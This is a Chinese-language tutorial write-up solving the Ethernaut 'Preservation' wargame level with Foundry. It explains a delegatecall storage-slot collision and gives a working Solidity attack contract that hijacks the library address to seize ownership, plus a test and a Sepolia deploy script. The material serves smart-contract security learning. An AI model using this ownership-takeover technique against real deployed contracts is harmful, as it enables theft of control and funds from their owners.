



# Foundry 通关 Ethernaut（15）— Preservation

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

取得合约的所有权（`owner`）。

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

1. **constructor**:  初始化两个库合约地址，初始化 owner 地址为合约部署者
2. **setFirstTime**: 使用 delegatecall 调用 timeZone1Library 合约的 setTime 函数
3. **setSecondTime**: 使用 delegatecall 调用 timeZone2Library 合约的 setTime 函数
4. **LibraryContract** : 库合约，拥有一个状态变量 storedTime 以及一个 setTime 函数

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library; // slot 0
    address public timeZone2Library; // slot 1
    address public owner; // slot 2
    uint256 storedTime;  // slot 3
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```

## 思路

对于 delegatecall 来说，涉及到变量的修改时它是根据插槽位置来更新的



对于这里的合约来说：

1. 库合约的 setTime 函数更新了 storedTime 变量，storedTime 在 slot0
2. delegatecall 调用 setTime 时，对应的，会更新本合约的 slot0 的变量即 timeZone1Library
3. timeZone1Library 是 address 类型，storedTime 是 uint256 类型，因此，最终更新时，storedTime 会被强制转换为 address 类型

因此，我们可以

1. 将攻击合约地址转换为 uint256 类型传入 setFirstTime，成功将 timeZone1Library 修改为攻击合约地址
2. 在攻击合约设置setTime 函数实现修改 owner 逻辑
3. 调用 setFirstTime 修改 owner

## foundry 复现

### 测试

1. 攻击合约

   ```solidity
   contract Attack {
       // public library contracts
       address public timeZone1Library; // slot 0
       address public timeZone2Library; // slot 1
       // 和目标合约 slot 对齐
       address public owner; // slot 2
       uint256 storedTime;  // slot 3
       // Sets the function signature for delegatecall
       bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));
   
       Preservation public preservertion;
   
       constructor(address _address){
           preservertion = Preservation(_address);
       }
   
       function attack() public {
           uint256 contractAddr = uint256(uint160(address(this)));
           // 修改timeZone1Library为攻击合约地址
           preservertion.setFirstTime(contractAddr);
           uint256 addr = uint256(uint160(msg.sender));
           // 调用本合约的 setTime 修改 owner
           preservertion.setFirstTime(addr);
       }
       
       function setTime(uint256 _time) public {
           owner = address(uint160(_time));
       }
   }
   ```

2. 测试脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.13;
   
   import {Test, console} from "forge-std/Test.sol";
   import {LibraryContract,Preservation,Attack} from "../src/Preservation.sol";
   
   contract PreservationTest is Test {
       LibraryContract public libraryA;
       LibraryContract public libraryB;
       Preservation public preservation;
       Attack public attack;
       address public attacker = vm.addr(123);
   
       function setUp() public {
           libraryA= new LibraryContract();
           libraryB= new LibraryContract();
           preservation  = new Preservation(address(libraryA),address(libraryB));
           vm.prank(attacker);
           attack = new Attack(address(preservation));
       }
   
       function test_transfer() public {
           console.log("before",preservation.owner());
           // 切换成　attacker 攻击，最后 owner　为　attacker
           vm.prank(attacker);
           attack.attack();
           console.log("after",preservation.owner());
           console.log("attacker:",attacker);
       }
   }
   ```

3. 终端输入

   ```solidity
    forge test --match-path test/Preservation.t.sol -vvvv
   ```

   

   我们可以看到，攻击后，owner 成功更新，值为 attacker 地址

### 链上交互

1. 部署脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.13;
   
   import {Script, console} from "forge-std/Script.sol";
   import {Preservation,Attack} from "../src/Preservation.sol";
   
   contract PreservationScript is Script {
       Preservation public preservation;
       Attack public attack;
   
       function setUp() public {
           preservation = Preservation(0x6A613Fd64Ca1658D6cb5eAc3bd12Fe6c5b841211);
       }
       function run() public {
           vm.startBroadcast();
           attack = new Attack(address(preservation));
           console.log("before",preservation.owner());
           attack.attack();
           console.log("after",preservation.owner());
           vm.stopBroadcast();
       }
   }
   ```

2. 终端部署

   ```bash
   forge script script/Preservation.s.sol --rpc-url $Sepolia_RPC_URL --broadcast --account [AcoountName] interactive
   ```

   

可以看到，owner 改变


